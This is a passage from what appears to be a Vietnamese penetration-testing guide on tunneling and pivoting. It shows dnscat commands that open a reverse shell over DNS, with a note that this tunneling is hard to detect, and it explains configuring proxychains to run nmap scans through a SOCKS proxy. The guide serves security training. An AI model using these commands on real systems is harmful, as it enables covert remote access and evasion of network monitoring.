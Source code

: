 **Ví dụ**:

```bash
./dnscat --dns server=192.168.1.10,port=53 --secret=mysecret
```

* Kết nối đến server và tạo shell ngược.

#### **3. Tạo Shell Ngược (trên server)**:

```bash
session -i 1
shell
```

{% hint style="info" %}
DNS tunneling chậm nhưng khó phát hiện.
{% endhint %}

***

## Các công cụ hỗ trợ

### Proxychains

Định tuyến lưu lượng TCP qua SOCKS proxy (thường từ Dynamic Port Forwarding).

#### 1. Cấu hình Proxychains

**File cấu hình**: `/etc/proxychains4.conf`

**Nội dung ví dụ**:

```conf
quiet_mode
socks5 127.0.0.1 9999
```

#### 2. Chạy lệnh với Proxychains

**Cú pháp**:

```bash
proxychains4 <command>
```

**Ví dụ**:

```bash
proxychains4 nmap -sT 192.168.1.100
```

* Quét `192.168.1.100` qua SOCKS proxy tại `127.0.0.1:9999`.

{% hint style="info" %}
Proxychains chỉ hỗ trợ TCP, không hỗ trợ UDP.
{% endhint %}

***
